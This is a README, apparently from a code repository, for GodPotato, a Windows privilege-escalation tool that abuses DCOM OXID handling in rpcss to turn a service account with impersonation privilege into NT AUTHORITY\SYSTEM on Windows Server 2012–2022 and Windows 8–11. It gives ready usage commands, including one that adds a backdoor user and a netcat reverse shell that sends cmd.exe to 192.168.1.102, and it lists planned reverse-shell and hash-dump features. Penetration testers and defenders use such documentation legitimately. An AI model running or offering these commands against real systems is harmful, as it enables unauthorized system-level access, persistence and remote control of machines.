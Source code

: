 # 添加功能
## `DirectoryEntry` 添加用户

```bash
GodPotato -adduser test:123456
```
后续计划添加 `-group`参数，指定要加入的用户组。

## TODO 反弹shell
## TODO dump hash
# GodPotato


Based on the history of Potato privilege escalation for 6 years, from the beginning of RottenPotato to the end of JuicyPotatoNG, I discovered a new technology by researching DCOM, which enables privilege escalation in Windows 2012 - Windows 2022, now as long as you have "ImpersonatePrivilege" permission. Then you are "NT AUTHORITY\SYSTEM", usually WEB services and database services have "ImpersonatePrivilege" permissions.



Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM" privileges.
However, the historical Potato has no way to run on the latest Windows system. When I was researching DCOM, I found a new method that can perform privilege escalation. There are some defects in rpcss when dealing with oxid, and rpcss is a service that must be opened by the system. , so it can run on almost any Windows OS, I named it GodPotato



# Affected version

Windows Server 2012 - Windows Server 2022 Windows8 - Windows 11


# Example

```

    FFFFF                   FFF  FFFFFFF
   FFFFFFF                  FFF  FFFFFFFF
  FFF  FFFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
  FFF   FFF                 FFF  FFF   FFF             FFF                  FFF
 FFFF        FFFFFFF   FFFFFFFF  FFF   FFF  FFFFFFF  FFFFFFFFF   FFFFFF  FFFFFFFFF    FFFFFF
 FFFF       FFFF FFFF  FFF FFFF  FFF  FFFF FFFF FFFF   FFF      FFF  FFF    FFF      FFF FFFF
 FFFF FFFFF FFF   FFF FFF   FFF  FFFFFFFF  FFF   FFF   FFF      F    FFF    FFF     FFF   FFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF         FFFFF    FFF     FFF   FFFF
 FFFF   FFF FFF   FFFFFFF   FFF  FFF      FFFF   FFF   FFF      FFFFFFFF    FFF     FFF   FFFF
  FFF   FFF FFF   FFF FFF   FFF  FFF       FFF   FFF   FFF     FFFF  FFF    FFF     FFF   FFFF
  FFFF FFFF FFFF  FFF FFFF  FFF  FFF       FFF  FFFF   FFF     FFFF  FFF    FFF     FFFF  FFF
   FFFFFFFF  FFFFFFF   FFFFFFFF  FFF        FFFFFFF     FFFFFF  FFFFFFFF    FFFFFFF  FFFFFFF
    FFFFFFF   FFFFF     FFFFFFF  FFF         FFFFF       FFFFF   FFFFFFFF     FFFF     FFFF


Arguments:

        -cmd Required:True CommandLine (default cmd /c whoami)

Example:

GodPotato -cmd "cmd /c whoami"


```


Use the program's built-in Clsid for privilege escalation and execute a simple command


```
GodPotato -cmd "cmd /c whoami"
```

![](images/1.png)


Customize Clsid and execute commands

```
GodPotato -cmd "cmd /c whoami"

```


![](images/2.png)


Execute reverse shell commands

```
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```
# Thanks

zcgonvh


skay


# License

[Apache License 2.0](/LICENSE) 
